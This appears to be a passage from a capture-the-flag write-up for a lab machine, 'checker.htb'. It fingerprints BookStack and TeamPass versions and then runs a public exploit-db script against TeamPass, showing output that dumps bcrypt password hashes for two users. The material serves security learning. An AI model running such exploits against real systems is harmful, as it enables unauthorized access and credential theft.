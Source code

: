 Let’s also look at the page source trying to determine the version

Potentially:

```bash
<link rel="stylesheet" href="http://checker.htb/dist/styles.css?version=v23.10.2">

<SNIP>
 <script src="http://checker.htb/dist/app.js?version=v23.10.2" nonce="0feRsAWjtjCwaXVx9OMYKWli"></script>
```

We found a vulnerability associated with that version: https://fluidattacks.com/advisories/imagination from either searching directly from Google: Book Stack v23.10.2 exploit, or going to cvedetails and search for book stack and find the relevant version.

However, we need at least a user account which we don’t have. Let’s move on for now and visit port 8080.

![image.png]({{ site.baseurl }}/assets/checker/image%202.png)

We have a teampass application. After research, there is no default login. There is a github page: https://github.com/nilsteampassnet/TeamPass

Page source does not reveal version. The github page shows that there is a changelog.txt which normally specify the version of the application. Let’s check:

```bash
http://checker.htb:8080/changelog.txt
```

![image.png]({{ site.baseurl }}/assets/checker/image%203.png)

The copyright implies that the latest version it can be is early 2023. Let’s look for exploit around that time.

We find this: https://www.exploit-db.com/exploits/52094

Let’s download the exploit. To learn how to use it, scroll down to main:

```bash
def main():
    if len(sys.argv) < 2:
        logger.error("Usage: python3 script.py <base-url>")
        sys.exit(1)
```

```bash
python3 52094.py http://checker.htb:8080                           

2025-08-29 10:35:51,769 - INFO - Encontrados 2 usuários no sistema
2025-08-29 10:35:52,082 - INFO - Credenciais obtidas para: admin
2025-08-29 10:35:52,401 - INFO - Credenciais obtidas para: bob

Credenciais encontradas:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy

```
